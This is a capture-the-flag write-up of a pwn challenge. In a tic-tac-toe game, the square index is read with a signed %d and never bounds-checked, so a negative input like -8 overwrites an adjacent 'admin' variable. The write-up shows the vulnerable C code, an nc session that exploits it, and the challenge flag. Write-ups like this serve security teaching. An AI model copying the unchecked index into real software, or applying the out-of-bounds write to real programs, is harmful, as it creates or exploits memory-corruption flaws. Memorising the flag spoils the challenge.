 # pwn/interesting

This challenge is supposed to be solved with an out-of-bounds (oob) write exploit.

The premise is a tic-tac-toe game in which the player must choose a section of the board to place their 'x'. However, when the user is presented with a prompt to choose which square to play, there is no bounds checking on the value inputted. So, an 'x' can be written to anywhere in memory. 

The flag is only accessible if the `admin` variable is not `0`. The `admin` variable is defined right before the `char` array that represents the board:

```c
int main(int argc, char* argv[]) {
    setup();
    int selection = 0;
    int admin = 0;
    char board[9] = {' ',' ',' ',' ',' ',' ',' ',' ',' '};
    printf("Welcome to TicTacToe!\nInput a board location to place your 'x'.\n");
...
```

The `scanf` call with which the user inputs their selection uses a `%d` for a signed integer instead of an unsigned integer. Because of this, a user can input negative numbers. Thus, they can write a value to the `admin` variable using a negative number, such as `-8`. Because the `admin` variable is an integer, writing to any value in the 4 byte range from `-8`->`-11` will work:

```
$ nc challs.ctf.uahcyber.club 46412
Welcome to TicTacToe!
Input a board location to place your 'x'.
Current board:
  |   |  
---------
  |   |  
---------
  |   |  

0 | 1 | 2
---------
3 | 4 | 5
---------
6 | 7 | 8
Selection (0-8): -8
Current board:
...
Selection (0-8): 2
...
Selection (0-8): 4
...
Selection (0-8): 6
Current board:
o | o | x
---------
o | x |  
---------
x |   |  
you win!!
flag: UAH{wh4t_if_it5_negat1v3_th0}
```